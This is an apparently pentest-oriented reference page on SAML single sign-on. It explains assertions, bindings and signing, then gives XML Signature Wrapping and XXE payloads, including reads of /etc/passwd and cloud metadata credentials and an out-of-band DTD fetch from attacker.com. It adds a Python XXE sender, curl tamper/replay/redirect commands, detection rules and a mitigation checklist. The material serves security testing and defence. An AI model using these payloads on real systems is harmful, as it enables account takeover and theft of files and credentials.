


# SAML Authentication

> **SAML (Security Assertion Markup Language) is an XML-based standard that lets enterprise employees log in once with their corporate identity and automatically access dozens of different services — the digital equivalent of a company badge that works at every door.**

---

## 🧠 What Is It? (Beginner Explanation)

Imagine you start work at a large company. You have a company badge (ID card). With that single badge, you can:
- Enter the office building
- Log into your email
- Access the HR system
- Use the project management tool
- Log into the expense report system

You don't need a separate password for each system. Your company's Identity Provider (the "badge system") proves who you are, and every other system trusts that proof.

SAML is the digital protocol that makes this possible for web applications. When you click "Login with your company account" on a service, SAML passes a signed XML document (an "assertion") from your company's identity system to the service, saying "This is Alice, she's an employee, she has access."

**The security challenge:** SAML assertions are XML. XML has notoriously complex parsing rules. That complexity creates vulnerabilities — especially when signatures can be stripped, wrapped, or bypassed.

---

## 🏗️ How It Works (Technical Deep Dive)

### SAML 2.0 Roles

| Role | Description | Example |
|---|---|---|
| **Principal** | The user attempting to authenticate | Alice, employee at Acme Corp |
| **Identity Provider (IdP)** | Authenticates the user, issues assertions | Okta, Azure AD, ADFS, Ping Identity |
| **Service Provider (SP)** | The app the user wants to access | Salesforce, Slack, GitHub Enterprise |

### SAML Assertions — XML Structure

A SAML assertion is an XML document with three possible statement types:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2:Assertion 
    xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion"
    ID="_a8e8f68a9ec3d3e7c8a7b6c5d4e3f2a1"
    IssueInstant="2024-01-15T10:23:45Z"
    Version="2.0">

  <!-- WHO issued this assertion -->
  <saml2:Issuer>https://idp.example.com</saml2:Issuer>

  <!-- SIGNATURE protects the assertion's integrity -->
  <ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
    <ds:SignedInfo>
      <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
      <ds:SignatureMethod Algorithm="http://www.w3.org/2001/04/xmldsig-more#rsa-sha256"/>
      <ds:Reference URI="#_a8e8f68a9ec3d3e7c8a7b6c5d4e3f2a1">
        <ds:Transforms>
          <ds:Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"/>
        </ds:Transforms>
        <ds:DigestMethod Algorithm="http://www.w3.org/2001/04/xmlenc#sha256"/>
        <ds:DigestValue>BASE64_ENCODED_DIGEST</ds:DigestValue>
      </ds:Reference>
    </ds:SignedInfo>
    <ds:SignatureValue>BASE64_ENCODED_SIGNATURE</ds:SignatureValue>
  </ds:Signature>

  <!-- CONDITIONS: When and where this assertion is valid -->
  <saml2:Conditions 
      NotBefore="2024-01-15T10:23:45Z"
      NotOnOrAfter="2024-01-15T10:28:45Z">
    <saml2:AudienceRestriction>
      <saml2:Audience>https://sp.example.com</saml2:Audience>
    </saml2:AudienceRestriction>
  </saml2:Conditions>

  <!-- STATEMENT 1: Authentication — who logged in and how -->
  <saml2:AuthnStatement AuthnInstant="2024-01-15T10:23:45Z"
                         SessionIndex="_session_abc123">
    <saml2:AuthnContext>
      <saml2:AuthnContextClassRef>
        urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport
      </saml2:AuthnContextClassRef>
    </saml2:AuthnContext>
  </saml2:AuthnStatement>

  <!-- STATEMENT 2: Attributes — user's properties -->
  <saml2:AttributeStatement>
    <saml2:Attribute Name="email">
      <saml2:AttributeValue>alice@example.com</saml2:AttributeValue>
    </saml2:Attribute>
    <saml2:Attribute Name="role">
      <saml2:AttributeValue>administrator</saml2:AttributeValue>
    </saml2:Attribute>
    <saml2:Attribute Name="department">
      <saml2:AttributeValue>Engineering</saml2:AttributeValue>
    </saml2:Attribute>
  </saml2:AttributeStatement>

</saml2:Assertion>
```

### SAML Bindings

SAML doesn't specify exactly how to transport XML messages — that's left to "bindings":

**HTTP-POST Binding** (most common):
- XML is base64-encoded and placed in a hidden HTML form field.
- Form is auto-submitted via JavaScript `document.forms[0].submit()`.
- XML travels in the POST body.

```html
<form method="post" action="https://sp.example.com/saml/acs">
  <input type="hidden" name="SAMLResponse" 
         value="PHNhbWxwOlJlc3BvbnNlIHhtbG5zOnNhbWxwPSJ1cm46...BASE64_ENCODED_SAML_XML..."/>
  <input type="hidden" name="RelayState" value="/dashboard"/>
  <noscript>
    <input type="submit" value="Submit"/>
  </noscript>
</form>
<script>document.forms[0].submit();</script>
```

**HTTP-Redirect Binding** (for AuthnRequests):
- XML is deflated (zlib compressed), base64-encoded, URL-encoded in query string.
- Used for requests (SP → IdP), as they're smaller.
- More susceptible to URL manipulation.

```
GET /idp/sso?SAMLRequest=nVNdT8IwFH3nV5C%2B73...&RelayState=%2Fdashboard
```

**Artifact Binding** (enterprise):
- Only a reference (artifact) is transmitted in the browser.
- SP uses back-channel to fetch the actual message from IdP.
- More secure (assertion never in browser), but complex.

### What Gets Signed

**Critically important — what is signed matters:**

```
Option A: Only the Assertion is signed
  <samlp:Response>
    <saml:Assertion>          ← Only this element is signed
      <ds:Signature>...</ds:Signature>
      ...
    </saml:Assertion>
  </samlp:Response>

Option B: Only the Response is signed  
  <samlp:Response>
    <ds:Signature>...</ds:Signature>  ← Only this outer element is signed
    <saml:Assertion>          ← Assertion inside is NOT separately signed
      ...
    </saml:Assertion>
  </samlp:Response>

Option C: Both are signed (most secure)
  <samlp:Response>
    <ds:Signature>...</ds:Signature>
    <saml:Assertion>
      <ds:Signature>...</ds:Signature>
      ...
    </saml:Assertion>
  </samlp:Response>
```

**This matters for XSW attacks** — if only one level is signed, attackers can tamper with the unsigned level.

---

## 📊 Diagram

### SAML SSO Flow (SP-Initiated)



### XSW Attack Anatomy



---

## ⚙️ Technical Details

### XML Signature Wrapping (XSW) — The Core Attack

XML Signature Wrapping exploits the discrepancy between:
1. **What the XML signature verifier sees** (the signed element)
2. **What the application logic processes** (the element it looks for to get user attributes)

SAML XML is complex, and XML parsers can find elements in unexpected ways. If the application does `getElementsByTagName("Assertion")[0]` and there are multiple `Assertion` elements in the document, it might process the FIRST one (which is attacker-controlled) rather than the SIGNED one.

**The 8 XSW Variants:**

XSW1–XSW8 are systematic variations of where the attacker inserts the evil element and where they move the signed element. Named variants used in research papers and tools.

```xml
<!-- ORIGINAL VALID SAML RESPONSE (simplified) -->
<samlp:Response ID="_response_id">
  <saml:Assertion ID="_assertion_real">
    <ds:Signature><!-- Signs _assertion_real --></ds:Signature>
    <saml:AttributeStatement>
      <saml:Attribute Name="email">
        <saml:AttributeValue>victim@corp.com</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>
</samlp:Response>
```

**XSW1 — Evil assertion before signed assertion:**
```xml
<samlp:Response ID="_response_id">
  <!-- EVIL: Attacker's assertion (no signature) -->
  <saml:Assertion ID="_assertion_evil">
    <saml:AttributeStatement>
      <saml:Attribute Name="email">
        <saml:AttributeValue>admin@corp.com</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>
  <!-- REAL: Original signed assertion (signature is valid!) -->
  <saml:Assertion ID="_assertion_real">
    <ds:Signature><!-- Still valid on _assertion_real --></ds:Signature>
    <saml:AttributeStatement>
      <saml:Attribute Name="email">
        <saml:AttributeValue>victim@corp.com</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>
</samlp:Response>
```

If the SP processes the first `Assertion` found → processes attacker's email.
Signature verification on the second `Assertion` → still passes.
**Result: SP thinks attacker is admin@corp.com with valid signature.**

**XSW2 — Evil assertion wraps the signed one:**
```xml
<samlp:Response ID="_response_id">
  <saml:Assertion ID="_assertion_evil">
    <saml:AttributeStatement>
      <saml:Attribute Name="email">
        <saml:AttributeValue>admin@corp.com</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
    <!-- Real signed assertion is nested INSIDE the evil one -->
    <saml:Assertion ID="_assertion_real">
      <ds:Signature><!-- Valid signature --></ds:Signature>
      <saml:AttributeStatement>
        <saml:Attribute Name="email">
          <saml:AttributeValue>victim@corp.com</saml:AttributeValue>
        </saml:Attribute>
      </saml:AttributeStatement>
    </saml:Assertion>
  </saml:Assertion>
</samlp:Response>
```

### XXE in SAML

SAML uses XML. XML parsers that process external entities (XXE) can be exploited via SAML:

```xml
<!-- Attacker-crafted SAML with XXE payload -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol">
  <saml:Issuer>https://evil-idp.attacker.com</saml:Issuer>
  <saml:Assertion>
    <saml:AttributeStatement>
      <saml:Attribute Name="email">
        <!-- XXE: reads /etc/passwd contents into the assertion -->
        <saml:AttributeValue>&xxe;</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>
</samlp:Response>
```

**SSRF via XXE:**
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
```

**Blind XXE (OOB exfiltration):**
```xml
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "https://attacker.com/evil.dtd">
  %dtd;
]>
```

### Comment Injection in Username

Some SAML implementations are vulnerable to comment injection in the NameID (username field):

**Original signed assertion says user is:**
```xml
<saml:NameID>victim@corp.com</saml:NameID>
```

**Attacker injects:**
```xml
<saml:NameID>attacker@evil.com<!--</saml:NameID>
  <saml:Attribute Name="email">
    <saml:AttributeValue>victim@corp.com</saml:AttributeValue>
  </saml:Attribute>
-->@corp.com</saml:NameID>
```

Different parsers interpret XML comments differently. Some might extract `victim@corp.com` as the identity, bypassing the actual authentication as attacker@evil.com.

**Simpler variant:**
```
user<!---->name@corp.com
```
Some parsers strip comments and get `username@corp.com` = admin. Attacker registers `user@corp.com` (legitimate account), injects comment to become another user.

---

## 🔴 Attack Surface & Exploitation

### Attack 1: Signature Not Validated at All

Some SPs accept any well-formed SAML assertion without actually verifying the signature!

**Test:**
1. Intercept a valid SAML response in Burp.
2. Base64-decode the `SAMLResponse` parameter.
3. Modify the email/role attribute in the XML.
4. Re-encode to base64 (without re-signing — just tamper the content).
5. Forward the modified request.
6. If SP logs you in with the modified role → signatures not validated.

```bash
# Decode SAMLResponse
echo "BASE64_SAML_RESPONSE" | base64 -d > saml_response.xml

# Edit the file — change email to target user or role to admin
sed -i 's/victim@corp.com/admin@corp.com/g' saml_response.xml
sed -i 's/<saml:AttributeValue>user<\/saml:AttributeValue>/<saml:AttributeValue>administrator<\/saml:AttributeValue>/g' saml_response.xml

# Re-encode
base64 -w 0 saml_response.xml > modified_saml.b64

# Submit via curl (format depends on SP's ACS endpoint)
curl -X POST https://sp.example.com/saml/acs \
  -d "SAMLResponse=$(cat modified_saml.b64)&RelayState=/dashboard"
```

### Attack 2: XML Signature Wrapping (XSW) — Full Exploitation

**Using SAML-Raider Burp Extension:**

```
STEP 1: Install SAML-Raider
   BApp Store → Search "SAML Raider" → Install

STEP 2: Capture a legitimate SAML SSO flow
   - Enable Burp Proxy
   - Log in via SSO as a regular user
   - In Proxy History, find the POST to /saml/acs
   - Look for SAMLResponse parameter

STEP 3: Open in SAML-Raider
   - Right-click the request → Extensions → SAML Raider → Send to SAML Raider
   
STEP 4: In SAML Raider tab:
   - See decoded/pretty-printed SAML XML
   - Look at the AttributeStatement to find the email/role fields
   
STEP 5: Select XSW attack
   - In "SAML Editor" panel, click "XSW Attacks"
   - Select each XSW variant (XSW1 through XSW8)
   - For each: modify the malicious assertion's email to your target email
   
STEP 6: Click "Resend"
   - SAML-Raider re-encodes and re-sends the modified SAML
   - If you get logged in as the target user → XSW successful!

STEP 7: Note which XSW variant worked (XSW1-XSW8)
   - Different SPs are vulnerable to different variants
```

### Attack 3: XXE via SAML (Step-by-Step)

```python
# Script to craft and send a SAML request with XXE
import base64
import requests
import urllib.parse

# XXE-embedded SAML response
xxe_saml = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE saml [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
                xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
                ID="_xxe_test_001"
                Version="2.0"
                IssueInstant="2024-01-15T10:00:00Z"
                Destination="https://target-sp.com/saml/acs">
  <saml:Issuer>https://known-idp.corp.com</saml:Issuer>
  <saml:Assertion
      xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
      ID="_xxe_assertion_001"
      Version="2.0"
      IssueInstant="2024-01-15T10:00:00Z">
    <saml:Issuer>https://known-idp.corp.com</saml:Issuer>
    <saml:Subject>
      <saml:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress">
        &xxe;
      </saml:NameID>
    </saml:Subject>
    <saml:AttributeStatement>
      <saml:Attribute Name="email">
        <saml:AttributeValue>&xxe;</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>
</samlp:Response>"""

# Encode
saml_b64 = base64.b64encode(xxe_saml.encode()).decode()

# Send to SP's ACS endpoint
response = requests.post(
    "https://target-sp.com/saml/acs",
    data={
        "SAMLResponse": saml_b64,
        "RelayState": "/dashboard"
    },
    allow_redirects=False
)

print(f"Status: {response.status_code}")
print(f"Response: {response.text[:500]}")
# Look for /etc/passwd contents in response or redirect
```

### Attack 4: Replay Attack

SAML assertions are time-limited but if the SP doesn't enforce:
- `NotOnOrAfter` (expiry check)
- `InResponseTo` (links to original request ID)

Then captured assertions can be replayed.

```bash
# Capture a valid SAML response (Burp, Wireshark)
# Wait until NotOnOrAfter has passed
# Replay the original SAMLResponse

curl -X POST https://target-sp.com/saml/acs \
  -d "SAMLResponse=CAPTURED_SAML_RESPONSE_BASE64&RelayState=/dashboard"

# If the SP accepts expired assertions → replay attack
```

### Attack 5: Open Redirect in RelayState

The `RelayState` parameter tells the SP where to redirect after authentication. If not validated:

```
# Normal RelayState:
RelayState=/dashboard

# Attacker-crafted:
RelayState=https://attacker.com/collect_credentials

# Phishing with SAML:
# 1. Attacker sends victim a link to IdP with attacker's RelayState
# 2. Victim authenticates normally (trusts the IdP)
# 3. After auth, SP redirects to attacker's URL
# 4. If SP passes any sensitive info in redirect → attacker captures it
```

```bash
# Test: Modify RelayState in SAMLResponse POST
curl -X POST https://target-sp.com/saml/acs \
  -d "SAMLResponse=VALID_B64&RelayState=https://attacker.com"

# If redirected to attacker.com → open redirect via RelayState
```

### Attack 6: IdP-Initiated SSO Without Validation

Some SPs support IdP-initiated SSO (assertion arrives without a prior AuthnRequest). In this case, there's no AuthnRequest ID to correlate via `InResponseTo`. This makes replay attacks trivially easy and makes it harder to validate the assertion's context.

```bash
# IdP-initiated: just POST a SAMLResponse without prior AuthnRequest
# The SP should still validate everything EXCEPT InResponseTo (which won't exist)
# But weak implementations may skip other validations too

# Test: Is IdP-initiated SSO accepted?
curl -X POST https://sp.example.com/saml/acs \
  -d "SAMLResponse=FORGED_SAML_B64" \
  # Note: no AuthnRequest was sent — pure attacker injection
```

---

## 💥 Payloads & Examples

### Real SAML Assertion XML Example

```xml
<?xml version="1.0" encoding="UTF-8"?>
<samlp:Response
    xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
    xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
    ID="_8e8dc5f69a98cc4c1ff3427e5ce34606fd672f91e6"
    Version="2.0"
    IssueInstant="2024-01-15T10:23:45.670Z"
    Destination="https://sp.example.com/saml2/acs"
    InResponseTo="_4fee3b046395c4e751011e97f8900b5273d56685">

  <saml:Issuer>https://idp.example.com</saml:Issuer>

  <ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
    <ds:SignedInfo>
      <ds:CanonicalizationMethod 
          Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
      <ds:SignatureMethod 
          Algorithm="http://www.w3.org/2001/04/xmldsig-more#rsa-sha256"/>
      <ds:Reference URI="#_8e8dc5f69a98cc4c1ff3427e5ce34606fd672f91e6">
        <ds:Transforms>
          <ds:Transform 
              Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"/>
          <ds:Transform 
              Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
        </ds:Transforms>
        <ds:DigestMethod 
            Algorithm="http://www.w3.org/2001/04/xmlenc#sha256"/>
        <ds:DigestValue>
          m+5GHvOOWZN8q5/2Kl7XHrIpOX5uYq3j4tZ9WmA1c2s=
        </ds:DigestValue>
      </ds:Reference>
    </ds:SignedInfo>
    <ds:SignatureValue>
      H+7kPqW9XvB2mR4nZaU0tLsY8dJfC6pQ3oTgV1wIeNhAkXMz
      bDyEuFrGs5cOlPiJ2qK9nHTvwAWBXLmRNYZOCSPdE7afMjt4
      VrKsD8xGUoFyIbHCeQ6plZhJmWTkNiXuPY1wAR3LqBgvEDOn
    </ds:SignatureValue>
    <ds:KeyInfo>
      <ds:X509Data>
        <ds:X509Certificate>
          MIICajCCAdOgAwIBAgIBADANBgkqhkiG9w0BAQUFADA...BASE64...
        </ds:X509Certificate>
      </ds:X509Data>
    </ds:KeyInfo>
  </ds:Signature>

  <samlp:Status>
    <samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
  </samlp:Status>

  <saml:Assertion
      xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
      ID="_d71a3a8e9fcc45c9efd8b4c9f95e8c3d4f23b1a2"
      Version="2.0"
      IssueInstant="2024-01-15T10:23:45.670Z">

    <saml:Issuer>https://idp.example.com</saml:Issuer>

    <saml:Subject>
      <saml:NameID 
          Format="urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress">
        alice@example.com
      </saml:NameID>
      <saml:SubjectConfirmation 
          Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <saml:SubjectConfirmationData
            NotOnOrAfter="2024-01-15T10:28:45.670Z"
            Recipient="https://sp.example.com/saml2/acs"
            InResponseTo="_4fee3b046395c4e751011e97f8900b5273d56685"/>
      </saml:SubjectConfirmation>
    </saml:Subject>

    <saml:Conditions
        NotBefore="2024-01-15T10:23:15.670Z"
        NotOnOrAfter="2024-01-15T10:28:45.670Z">
      <saml:AudienceRestriction>
        <saml:Audience>https://sp.example.com</saml:Audience>
      </saml:AudienceRestriction>
    </saml:Conditions>

    <saml:AuthnStatement
        AuthnInstant="2024-01-15T10:23:45.670Z"
        SessionIndex="_be9967abd904ddcae3c0eb4189adbe3f71e327cf">
      <saml:AuthnContext>
        <saml:AuthnContextClassRef>
          urn:oasis:names:tc:SAML:2.0:ac:classes:Password
        </saml:AuthnContextClassRef>
      </saml:AuthnContext>
    </saml:AuthnStatement>

    <saml:AttributeStatement>
      <saml:Attribute 
          Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress"
          NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
        <saml:AttributeValue 
            xsi:type="xs:string"
            xmlns:xs="http://www.w3.org/2001/XMLSchema"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
          alice@example.com
        </saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="role">
        <saml:AttributeValue>admin</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>

  </saml:Assertion>
</samlp:Response>
```

### XSW Attack XML Example

```xml
<!-- XSW VARIANT 1: Evil assertion injected before the signed assertion -->
<!-- The evil assertion contains admin@corp.com, signed assertion contains victim -->
<samlp:Response>
  
  <!-- EVIL ASSERTION (no signature, but SP processes this one first) -->
  <saml:Assertion ID="_evil_1234">
    <saml:Issuer>https://trusted-idp.example.com</saml:Issuer>
    <saml:Subject>
      <saml:NameID>admin@corp.com</saml:NameID>
    </saml:Subject>
    <saml:AttributeStatement>
      <saml:Attribute Name="email">
        <saml:AttributeValue>admin@corp.com</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="role">
        <saml:AttributeValue>administrator</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>

  <!-- REAL ASSERTION (signed, but SP might ignore this second one) -->
  <saml:Assertion ID="_real_5678">
    <saml:Issuer>https://trusted-idp.example.com</saml:Issuer>
    <ds:Signature>
      <!-- VALID signature covering _real_5678 -->
      <!-- This keeps signature validation passing! -->
    </ds:Signature>
    <saml:Subject>
      <saml:NameID>victim@corp.com</saml:NameID>
    </saml:Subject>
    <saml:AttributeStatement>
      <saml:Attribute Name="email">
        <saml:AttributeValue>victim@corp.com</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="role">
        <saml:AttributeValue>user</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>

</samlp:Response>
```

### SAML Attack Impact Table

| Attack | Vulnerability | Impact | Difficulty |
|---|---|---|---|
| **XSW (all variants)** | Poor XML element selection | Account takeover, privilege escalation | Medium |
| **Signature not validated** | Missing validation code | Critical — any user can be anyone | Easy |
| **XXE** | Unsafe XML parser config | File read, SSRF, potentially RCE | Medium |
| **Comment injection** | NameID parsing | Authentication bypass | Easy |
| **Replay attack** | Missing time/ID checks | Session reuse after logout | Easy |
| **Open redirect (RelayState)** | RelayState not validated | Phishing, credential theft | Easy |
| **SAML injection** | XML attribute injection | Attribute manipulation | Medium |
| **IdP spoofing** | Issuer not validated | Full account takeover | Medium |

---

## 🛠️ Tools & Commands

```bash
# ============================================================
# SAML-RAIDER — Burp Suite Extension
# ============================================================
# Install: BApp Store → SAML Raider
#
# Features:
# - Decode/display SAML messages
# - One-click XSW attacks (all 8 variants)
# - Remove/invalidate signature
# - XXE injection
# - Certificate management
#
# Usage:
# 1. Intercept POST /saml/acs in Burp
# 2. Go to "SAML Raider" tab in message editor
# 3. View pretty-printed XML
# 4. Click "Send Certificate to SAML Raider"
# 5. In "SAML Raider" main tab → XSW Attacks → select variant
# 6. Modify evil assertion's email/role
# 7. Click "Resend"

# ============================================================
# XMLSEC1 — Command Line XML Signature Operations
# ============================================================
sudo apt install xmlsec1

# Verify SAML XML signature
xmlsec1 --verify --id-attr:ID urn:oasis:names:tc:SAML:2.0:assertion:Assertion \
        --trusted-pem idp_cert.pem saml_response.xml

# Sign an XML document (for testing)
xmlsec1 --sign --privkey-pem private.pem \
        --output signed_saml.xml saml_template.xml

# ============================================================
# BASE64 ENCODE/DECODE SAML
# ============================================================

# Decode SAMLResponse from POST body
echo "SAMLResponse=BASE64..." | sed 's/SAMLResponse=//' | \
  python3 -c "
import sys, base64
data = sys.stdin.read().strip()
# Add padding if needed
pad = 4 - len(data) % 4
decoded = base64.b64decode(data + '=' * (pad % 4))
print(decoded.decode('utf-8'))
" | xmllint --format -

# Decode deflated SAMLRequest (HTTP-Redirect binding)
python3 << 'EOF'
import base64
import zlib
import urllib.parse
import sys

# URL-decode then base64-decode then inflate (reverse of deflate)
saml_request = "URL_ENCODED_SAML_REQUEST"
url_decoded = urllib.parse.unquote(saml_request)
b64_decoded = base64.b64decode(url_decoded + "==")
# -zlib.MAX_WBITS = raw deflate (no header)
inflated = zlib.decompress(b64_decoded, -zlib.MAX_WBITS)
print(inflated.decode('utf-8'))
EOF

# ============================================================
# SAMLTOOLS.IO — Online SAML Decoder/Encoder
# ============================================================
# https://www.samltool.com/decode.php (don't use with real tokens)

# ============================================================
# PYTHON SAML TESTING
# ============================================================
pip3 install python3-saml signxml lxml

python3 << 'EOF'
from lxml import etree
import base64

def decode_saml_response(b64_saml):
    """Decode and parse a SAML response"""
    # Add padding
    pad = 4 - len(b64_saml) % 4
    decoded = base64.b64decode(b64_saml + '=' * (pad % 4))
    root = etree.fromstring(decoded)
    return root

def extract_attributes(saml_root):
    """Extract attribute statements from SAML assertion"""
    ns = {
        'saml': 'urn:oasis:names:tc:SAML:2.0:assertion',
        'samlp': 'urn:oasis:names:tc:SAML:2.0:protocol'
    }
    
    attrs = {}
    for attr in saml_root.findall('.//saml:Attribute', ns):
        name = attr.get('Name')
        values = [v.text for v in attr.findall('saml:AttributeValue', ns)]
        attrs[name] = values
    
    return attrs

# Test with a real (intercepted) SAML response
sample_b64 = "YOUR_INTERCEPTED_SAML_BASE64_HERE"
# root = decode_saml_response(sample_b64)
# print(extract_attributes(root))
print("SAML parser ready")
EOF
```

---

## 🔍 Detection

**SAML attack indicators:**
```
- SAMLResponse containing multiple Assertion elements (XSW)
- SAMLResponse with DOCTYPE declaration (XXE attempt)
- SAMLResponse with algorithm="none" in Signature
- SAMLResponse from unexpected IP (relay / replay)
- SAMLResponse with expired NotOnOrAfter being accepted
- SAMLResponse with InResponseTo not matching any sent AuthnRequest
- Assertions from unknown/unexpected Issuers
- RelayState containing external URLs
- High volume of SAML validation errors followed by success
```

**WAF rules for SAML protection:**
```
# Block DOCTYPE in SAML requests (XXE prevention)
Block: Request body contains "<!DOCTYPE"

# Block multiple Assertion elements (XSW prevention)  
Block: SAMLResponse contains more than one <saml:Assertion> element

# Validate RelayState is relative URL only
Block: RelayState matches regex "^https?://" (only allow relative paths)
```

---

## 🛡️ Mitigation

### Secure SAML Implementation Checklist

| Control | Implementation | Prevents |
|---|---|---|
| **Validate signature** | Always verify XMLDSig on every assertion | Forged assertions |
| **Reject unsigned** | Reject assertions without valid signature | Any forged SAML |
| **Use exclusive canonicalization** | `http://www.w3.org/2001/10/xml-exc-c14n#` | Some XSW variants |
| **Select specific signed element** | Use ID reference, not tag name position | XSW attacks |
| **Disable external entities** | Set `FEATURE_SECURE_PROCESSING` in parser | XXE attacks |
| **Validate issuer** | Check Issuer matches trusted IdP list | Issuer spoofing |
| **Validate audience** | Check Audience matches SP entity ID | Assertion theft/reuse |
| **Check timestamps** | Enforce NotBefore and NotOnOrAfter | Replay attacks |
| **Validate InResponseTo** | Match against sent AuthnRequest IDs | Replay, injection |
| **Track used assertions** | Store assertion IDs, reject duplicates | Replay attacks |
| **Validate RelayState** | Only allow relative URLs in RelayState | Open redirect |
| **Use secure SAML library** | Use maintained libraries: OneLogin, python3-saml | Implementation bugs |

---

## 📚 References

- [SAML 2.0 Technical Overview](https://docs.oasis-open.org/security/saml/Post2.0/sstc-saml-tech-overview-2.0.html)
